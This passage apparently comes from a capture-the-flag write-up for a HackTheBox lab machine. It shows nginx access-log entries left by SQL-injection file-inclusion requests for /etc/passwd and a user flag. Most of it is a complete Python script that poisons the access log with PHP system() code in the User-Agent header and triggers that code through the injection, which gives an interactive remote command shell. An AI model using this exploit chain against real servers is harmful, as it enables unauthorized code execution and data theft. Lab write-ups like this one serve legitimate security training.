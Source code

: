 ### Gaining RCE on the system through code PHP injection in the access logs

I have access to the nginx access logs and I can see that the `User-Agent` header is included in the logs:
```
> /var/log/nginx/access.log
10.10.14.23 - - [14/Apr/2019:21:31:24 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/issue%22%20--%20- HTTP/1.1" 200 423 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:32:38 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/passwd%22%20--%20- HTTP/1.1" 200 925 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:38:00 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/home/guly/user.txt%22%20--%20- HTTP/1.1" 200 398 "-" "python-requests/2.18.4"
```

I control the `User-Agent` header so I can potentially inject PHP code in the access logs and trigger it by making a request to the log file using the LFI from the SQL injection. After some trial and error I find that Iwe can inject any PHP code I want in the `User-Agent` header and that the `system` function is not disabled. To make sure I don't end up with too much PHP statements in the access logs and kill the box, I reset the content of the access log file every time I run a command.

Here's the script I made to execute commands. I could have put more regex in there to clean up the output a bit more but that'll do for now.

```python
#!/usr/bin/python

from bs4 import BeautifulSoup
import re
import readline
import requests

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    headers = { "User-Agent": "<?php system('echo **BEGIN** > /var/log/nginx/access.log; %s'); ?>**END**" % cmd}
    r = requests.get("http://10.10.10.126/", headers=headers)
    file = "/var/log/nginx/access.log"
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    m = re.search("\*\*BEGIN\*\*(.*)\*\*END\*\*", str(soup.body), flags=re.DOTALL)
    if m:
        print m.group(1)
    else:
        print("No output")
```
